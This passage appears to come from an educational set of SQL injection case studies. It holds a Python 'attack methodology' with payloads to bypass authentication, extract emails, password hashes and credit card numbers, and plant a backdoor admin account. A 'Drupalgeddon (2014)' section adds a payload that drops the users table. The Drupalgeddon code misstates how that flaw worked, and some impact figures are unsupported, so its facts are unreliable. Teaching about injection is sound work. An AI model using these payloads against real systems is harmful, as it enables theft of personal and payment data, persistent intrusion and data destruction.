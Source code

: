 **Attack Methodology**:
```python
# Reconnaissance phase
def reconnaissance():
    """Identify injection points in payment system"""
    injection_points = [
        '/payment/process.php?amount=',
        '/billing/update.php?user_id=',
        '/subscription/modify.php?plan_id='
    ]
    
    for endpoint in injection_points:
        test_basic_injection(endpoint)

# Exploitation phase
def exploit_payment_system():
    """Exploit payment processing SQL injection"""
    
    # Step 1: Bypass authentication
    auth_bypass = "1' OR '1'='1' UNION SELECT admin_id, 'admin', 'hashed_pass' FROM admin_users--"
    
    # Step 2: Extract user data
    user_extraction = """
    1' UNION SELECT 
        user_id, 
        email, 
        password_hash, 
        credit_card_number, 
        private_messages 
    FROM users 
    WHERE active = 1--
    """
    
    # Step 3: Maintain persistence
    backdoor_creation = """
    1'; INSERT INTO admin_users (username, password, privileges) 
    VALUES ('backup_admin', MD5('secret123'), 'full_access');--
    """
```

**Business Impact Analysis**:
- **Direct Costs**: $570 million in settlements and legal fees
- **Reputation Damage**: Complete brand destruction
- **Regulatory Penalties**: Multiple privacy law violations
- **Operational Impact**: Business closure and asset liquidation

### Case Study 6: Drupalgeddon (2014)

**Impact**: 12+ million Drupal sites vulnerable
**Attack Vector**: SQL injection in Drupal core
**Scope**: Automated mass exploitation

**Technical Details**:
```php
// Vulnerable Drupal code
$query = "SELECT * FROM users WHERE name = '" . $username . "'";

// Exploitation payload
$malicious_username = "admin'; DROP TABLE users; INSERT INTO users (name, pass, status) VALUES ('hacker', MD5('password'), 1);--";
```
